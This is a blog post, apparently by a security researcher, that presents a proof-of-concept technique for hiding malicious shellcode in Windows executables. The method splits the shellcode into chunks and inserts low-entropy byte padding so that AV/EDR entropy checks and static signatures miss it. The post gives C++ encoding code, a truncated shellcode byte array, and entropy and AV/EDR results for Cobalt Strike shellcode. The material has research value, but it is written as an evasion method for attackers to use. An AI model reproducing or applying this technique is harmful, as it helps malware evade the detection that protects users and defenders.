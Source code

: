 ```yaml
---
title: The more predictable you are, the less you get detected - hiding malicious shellcodes via Shannon encoding
updated: 2022-05-30 12:44
---
```


# The more predictable you are, the less you get detected

Recently I publish a small [PoC](https://github.com/kleiton0x00/Shelltropy) on Github about a way of hiding malicious shellcode in PE by lowering its entropy.

Entropy is the measure of the randomness in a set of data (here: shellcode). The higher the entropy, the more random the data is. Shannon Entropy is an algorithm that will produce a result between 0 and 8, where 8 means there is no pattern in the data, thereby it's very random and 0 means data follows a pattern.

## The problem with high entropy shellcode
The entropy of malicious code grows as it is packed or obfuscated. Indeed, studies have shown that entropy may be utilized to successfully distinguish between non-malicious and malicious code based on its entropy. According to [Cisco](https://umbrella.cisco.com/blog/using-entropy-to-spot-the-malware-hiding-in-plain-sight): *Developing a database of the normal range of entropy values for image files would help threat researchers and incident response teams in more quickly identifying those files where suspicious data transfer was occurring.*
Malicious samples have an entropy of over 7.2, whereas normal software has an entropy of 4.8 to 7.2. In 30% of malicious samples, the entropy will be close to 8, whereas only 1% of harmless code will have this value. More than half of malicious samples will have an entropy of more than 7.2, but only one out of every ten normal programs will have this level of entropy. 
To summarize, not all malicious samples (though the most majority will) have high entropy, and not all valid programs will have low entropy (but the majority will). The fact that packing is a genuine strategy for reducing the size of executables and protecting resources, and many programs take advantage of it, explains why legal samples can have high entropy.

## Avoiding high entropy algorithms
During my research, I noticed that the default Cobalt Strike shellcode has an entropy of 7.4, that is high! There are many possibilities to obfuscate the code, by using an algorithm that does not increase entropy (like XORing and Base64 encoding). This last one I think is the more convenient, which does not mean that is perfect. XORing as well as Base64 encoding can be easily decrypted to unmask the real purpose of the code. Also signatures can be created directly, both against the XORed as well as the Base64 encoded data. Finally, Some anti-malware solutions can even decode these simple schemes during the emulation phase of the analysis.

## The solution
If randomness is the issue, why not try to mask the harmful obfuscated code by introducing patterns that diminish unpredictability and hence global entropy? This manner, you are not restricted to using basic techniques to obfuscate code and remain undetected by anti-malware solutions; also, the obfuscated code may be any size. 

## How the PoC works

The concept is to divide the array into chunks and insert a low-entropy pattern of bytes between each chunk. When the sample is run, we must reconstruct the original payload in memory, bypassing the static detection of the high entropy code at this stage.
It's also worth noting that the low-entropy code to be inserted can follow a variety of patterns, and the amount of insertions can vary, thus it can be used to circumvent static signature detection. The second step is to combine the high entropy chunks of bytes with the low entropy chunks. 
Because, after all, we need to restore the obfuscated code to what it was initially in order to proceed to the de-obfuscation step, the third job will restore the original array of bytes by deleting the low entropy patterns. 

```cpp
#include <cstdio>
#include <Windows.h>
#include "Entropy.h"

using namespace std;

BYTE payload[] = { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc8,0x00,0x00,0x00,0x41,0x51,0x41,0x50 ... 0x36,0x30,0x00,0x5e,0x2e,0x78,0x90 }; // Simulated high entropy code
constexpr int number_of_chunks = 5; // Number of chunks. You can randomize this too.
constexpr int chunk_size = sizeof payload / number_of_chunks; // Size of each chunk
constexpr int remaining_bytes = sizeof payload % number_of_chunks; // Remaining bytes after the last chunk is processed
BYTE lowEntropyShellcode[sizeof payload * 2 - remaining_bytes] = {0}; // array of bytes size calculation to contain the original high entropy code plus the low entropy inserts
constexpr int payload_size_after_entropy_reduction = sizeof payload * 2; // Total size of the reduced entropy payload
```

Notice that all of these calculations are stored in global variables and the high entropy code is also located in the global area of the code to assure that it will be stored in the data section of the executable but it could be perfectly located in the resources section and loaded at runtime too. You could even store the high entropy byte pattern inside the main function, however then the pattern would be stored in the .text section and it would be loaded in the stack and not in the heap as it happens when its stored in the data section or in the resources section. This is important because the stack can't handle very big array of bytes and also some compilers complain about this when array is too big.

Next task is to divide the high entropy code in chunks and add the low entropy patterns:

```cpp
PBYTE shannonEncode(PBYTE rawShellcode)
{
	constexpr int max_n = 0xEF; //239
	constexpr int min_n = 0x01; //1
	char random_hex[chunk_size];
	int encodedShellcodeOffset = 0;
	int shellcodeOffset = 0;
	const BYTE new_n = static_cast<BYTE>((rand() % (max_n + 1 - min_n) + min_n));
	for (char& i : random_hex)
	{
		i = static_cast<char>(new_n);
	}
	for (size_t i = 0; i < number_of_chunks; i++)
	{
		for (size_t j = 0; j < chunk_size; j++)
		{
			lowEntropyShellcode[encodedShellcodeOffset] = rawShellcode[shellcodeOffset];
			encodedShellcodeOffset++;
			shellcodeOffset++;
		}
		for (const char k : random_hex)
		{
			lowEntropyShellcode[encodedShellcodeOffset] = k;
			encodedShellcodeOffset++;
		}
	}
	if (remaining_bytes)
	{
		for (size_t i = 0; i < sizeof remaining_bytes; i++)
		{
			lowEntropyShellcode[encodedShellcodeOffset++] = rawShellcode[shellcodeOffset++];
		}
	}
	for (int count = 0; count < sizeof(lowEntropyShellcode); count++) {
		printf("0x%02X,", lowEntropyShellcode[count]);
	}
	return lowEntropyShellcode;
}
```

So lets explain this graphically. Suppose a byte belonging to a high entropy chunk is represented by the letter "H" and a low entropy byte belonging to a low entropy chunk is represented by the letter "L", and the remaining never modified bytes are represented by the letter "R"

![poc_logic_flow](https://github.com/kleiton0x00/Shelltropy/blob/main/Images/encoding_logic_flow.jpg?raw=true)

## Entropy Results

**Note:** The following results are only tested with CS Shellcode.

~ Raw default Cobalt Strike shellcode  
(High-entropy) Normal: **7.062950**   
(Low-entropy) Encoded: **4.527140**  

~ XORed Cobalt Strike shellcode  
(High-entropy) Normal: **4.583139**    
(Low-entropy) Encoded: **3.278284**

## AV/EDR Scanning Results

High-Entropy (left side) vs Low-Entropy (right side) default CS Shellcode integrated with Syscalls (Syswhispers2):  
![results-side-by-side](https://i.imgur.com/ZXcGlDQ.jpg)

## Disadvantage

While encoding, the size of the shellcode will be 2 times larger, making it easier for Blue Team/ Malware Analysis to detect such encoded shellcodes.

## Summary
It is straightforward to reduce the entropy of obfuscated malware code; it may be used to elude detection and, on top of that, it may provide some extra protection against signature formation. As [Cyberbit](https://www.cyberbit.com/blog/endpoint-security/malware-terms-code-entropy/) states: *The lower the code entropy, the lower the chances are that the code has been obfuscated in any way.* The code described here can be modified to build solutions that assist avoid the use of entropy as a malware detection method.
Using alternative mathematical equations and different sized low entropy chunks of code to create better low entropy byte patterns may improve the method's reliability. 
